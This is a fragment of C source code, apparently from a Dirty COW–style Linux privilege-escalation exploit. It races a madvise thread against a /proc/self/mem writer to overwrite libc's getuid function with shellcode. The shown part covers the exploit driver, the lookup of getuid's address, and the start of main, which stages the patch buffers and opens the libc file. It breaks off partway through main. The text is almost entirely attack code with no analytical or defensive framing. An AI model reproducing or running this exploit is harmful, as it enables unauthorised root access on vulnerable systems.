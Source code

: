 static void exploit(struct mem_arg *mem_arg, bool do_patch)
{
	pthread_t pth1, pth2;

	printf("[*] exploiting (%s)\n", do_patch ? "patch": "unpatch");

	mem_arg->do_patch = do_patch;

	pthread_create(&pth1, NULL, madviseThread, mem_arg);
	pthread_create(&pth2, NULL, procselfmemThread, mem_arg);

	pthread_join(pth1, NULL);
	pthread_join(pth2, NULL);
}

static unsigned long get_getuid_addr(void)
{
	unsigned long addr;
	void *handle;
	char *error;

	dlerror();

	handle = dlopen("libc.so.6", RTLD_LAZY);
	if (handle == NULL) {
		fprintf(stderr, "%s\n", dlerror());
		exit(EXIT_FAILURE);
	}

	addr = (unsigned long)dlsym(handle, "getuid");
	error = dlerror();
	if (error != NULL) {
		fprintf(stderr, "%s\n", error);
		exit(EXIT_FAILURE);
	}

	dlclose(handle);

	return addr;
}

int main(int argc, char *argv[])
{
	unsigned long start, end;
	unsigned long getuid_addr;
	struct mem_arg mem_arg;
	struct stat st;
	pid_t pid;
	int fd;

	if (get_range(&start, &end) != 0)
		errx(1, "failed to get range");

	printf("[*] range: %lx-%lx]\n", start, end);

	getuid_addr = get_getuid_addr();
	printf("[*] getuid = %lx\n", getuid_addr);

	mem_arg.patch = malloc(sizeof(SHELLCODE)-1);
	if (mem_arg.patch == NULL)
		err(1, "malloc");

	mem_arg.unpatch = malloc(sizeof(SHELLCODE)-1);
	if (mem_arg.unpatch == NULL)
		err(1, "malloc");

	memcpy(mem_arg.unpatch, (void *)getuid_addr, sizeof(SHELLCODE)-1);
	memcpy(mem_arg.patch, SHELLCODE, sizeof(SHELLCODE)-1);
	mem_arg.patch_size = sizeof(SHELLCODE)-1;
	mem_arg.do_patch = true;

	fd = open(LIBC_PATH, O_RDONLY);
